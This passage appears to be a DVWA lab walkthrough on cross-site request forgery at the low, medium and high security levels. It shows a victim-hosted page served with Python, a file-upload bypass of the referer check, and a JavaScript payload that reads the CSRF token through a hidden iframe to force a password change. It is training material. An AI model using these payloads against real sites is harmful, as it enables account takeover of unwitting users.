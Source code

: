 ```html
```


we can host this page so when victim visit page their password will automatically change.

I'm using python to host webpage:

Output:
  
```Shell
C:\Users\AFTAB SAMA\Downloads>python -m http.server 80
Serving HTTP on :: port 80 (http://[::]:80/) ...
::ffff:192.168.173.222 - - [18/Aug/2022 18:03:11] "GET /csrf-test.html HTTP/1.1" 200 -
::ffff:192.168.173.222 - - [18/Aug/2022 18:03:12] code 404, message File not found
::ffff:192.168.173.222 - - [18/Aug/2022 18:03:12] "GET /favicon.ico HTTP/1.1" 404 -
```

</details>



### **Security level: medium**

Same attack won't work, looking at sourcecode we know that server checks where the request came from.

<img width="333" alt="image" src="https://user-images.githubusercontent.com/79740895/185403021-db671fc3-c08d-47e2-8a8f-fdb639e50e90.png">

one way to get around is if we can upload our file in server.

Now first of all change csrf.html into csrf.php file, then set low security level and switch into file uploading vulnerability inside DVWA.

Here the above text file of html form is now saved as csrf.php is successfully uploaded in the server which you can see from given screenshot.

<img width="468" alt="image" src="https://user-images.githubusercontent.com/79740895/185402657-d1e47dc3-2884-4619-a5a6-5dafbe459a68.png">

now we can use this new url: `http://192.168.170.131/hackable/uploads/csrf.php`

password changed.



### **Security level: high**

This time it use csrf token. we can read this token if we have same origin and we can do that by uploading our payload to server as shown previously.

upload this code to server:

HTML code:

```html
<html>
 <body>
  <p>TOTALLY LEGITIMATE AND SAFE WEBSITE </p>
  <iframe id="myFrame" src="http://192.168.170.131/vulnerabilities/csrf" style="visibility: hidden;" onload="maliciousPayload()"></iframe>
  <script>
   function maliciousPayload() {
    console.log("start");
    var iframe = document.getElementById("myFrame");
    var doc = iframe.contentDocument  || iframe.contentWindow.document;
    var token = doc.getElementsByName("user_token")[0].value;
const http = new XMLHttpRequest();
    const url = "http://192.168.170.131/vulnerabilities/csrf/?password_new=hackerman&password_conf=hackerman&Change=Change&user_token="+token+"#";
    http.open("GET", url);
    http.send();
    console.log("password changed");
   }
```